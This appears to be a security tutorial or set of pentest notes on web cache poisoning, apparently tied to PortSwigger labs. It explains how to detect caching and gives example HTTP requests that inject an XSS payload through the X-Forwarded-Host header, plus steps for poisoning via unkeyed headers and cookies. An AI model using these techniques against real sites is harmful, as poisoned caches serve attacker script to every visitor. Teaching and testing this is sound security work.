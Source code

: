 ## **Detecting Cached Responses**

Add a cache buster parameter ```?cb=1``` in the request. Change the number in the parameter before new request, so that we don't get a cached response. 
<br>
<br>
To confirm caching behavior, inspect response headers and time differences:

- **`X-Cache: hit`** – Response served from the cache.  
- **`X-Cache: miss`** – Response fetched from the origin server and potentially cached.  
- **`X-Cache: refresh`** – Cache was outdated and revalidated.

Additionally, check `Cache-Control` headers for caching directives like `public` with a non-zero `max-age`.

---

# Exploiting cache design flaws

## Using web cache poisoning to deliver an XSS attack

Consider the following request and response:

```txt
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Here, the value of the X-Forwarded-Host header is being used to dynamically generate an Open Graph image URL, which is then reflected in the response. In this example, the cache can potentially be poisoned with a response containing a simple XSS payload:

```txt
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

If this response was cached, all users who accessed /en?region=uk would be served this XSS payload.

## Web cache poisoning with an unkeyed header

Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as externally hosted JavaScript files. In this case, if an attacker changes the value of the appropriate header to a domain that they control, they could potentially manipulate the URL to point to their own malicious JavaScript file instead. We can use ```X-Forwarded-Host:``` header for this.

**Step**
```
  1. Add a cache buster parameter ?cb=1 in the request.
  2. Add X-forwarded-For header in request.
  3. Add a arbitrary domain (example.com) and send the request.
  4. If the example.com reflected in response page, we can now place our malicious link in it.
```
The malicius link contain with js file will trigger on all users browser if the site is vulnerable to the Web Cache Poisoning.

## Web cache poisoning with an unkeyed cookie

Cookies are often used to dynamically generate content in a response. If the response of the request is cached, then all subsequent users who tried to access the poisoned page will get the malicious content. 

**Step**
```
  1. Add a cache buster parameter ?cb=1 in the request.
  2. Identify if any cookie value reflecting in the response.
  3. If the cookie value reflected in response page, we can now place our malicious javascript code in it.
```

## Web cache poisoning with multiple headers

Identify any unkeyed header using param miner and craft a attack.
<br>
<br>
Poc: [Web cache poisoning with multiple headers](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers)

## Exploiting responses that expose too much information

### Targeted web cache poisoning using an unknown header

```Vary``` header is used for sending device or client specific content. Using ```Vary``` header in responce, in some cases we can craft an attack.
<br>
<br>
Poc: [Targeted web cache poisoning using an unknown header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header)

---

## 
